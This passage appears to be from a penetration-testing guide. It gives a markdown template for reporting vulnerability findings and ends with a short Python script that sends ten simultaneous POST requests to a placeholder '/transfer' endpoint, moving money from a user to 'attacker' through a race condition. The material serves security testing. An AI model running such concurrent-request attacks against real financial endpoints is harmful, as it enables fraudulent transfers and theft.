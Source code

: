 ```markdown
## 🧠 Finding: [Vulnerability Title]
**🔍 Location:** [URL/Endpoint/Parameter]
**📊 Severity:** Critical/High/Medium
**🎯 CVSS Score:** [Score] ([Vector String])

### 📎 Evidence:
```http
[Exact HTTP Request/Response showing exploitation]
```

### 💥 Impact:
[Detailed description of what was achieved through exploitation]
- Data accessed: [Specific data types and quantities]
- Systems compromised: [Specific systems or accounts]
- Privilege level achieved: [User/Admin/System level access]
- Potential attack escalation: [Next steps an attacker could take]

### 🔗 Exploit Chain:
1. [Step-by-step exploitation process]
2. [Each step with technical details]
3. [Final impact demonstration]

### 💡 Remediation:
- **Immediate:** [Quick fixes to stop active exploitation]
- **Short-term:** [Proper security controls implementation]
- **Long-term:** [Architectural changes and security improvements]

### 🧪 Proof of Concept:
[Working exploit code or detailed reproduction steps]
```

**Advanced Testing Scenarios**:

**Race Condition Exploitation**:
```python
import threading
import requests

def exploit_race():
    # Simultaneous requests to exploit race condition
    url = "https://target.com/transfer"
    data = {"from": "user1", "to": "attacker", "amount": "1000"}
    
    threads = []
    for i in range(10):
        t = threading.Thread(target=lambda: requests.post(url, data=data))
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

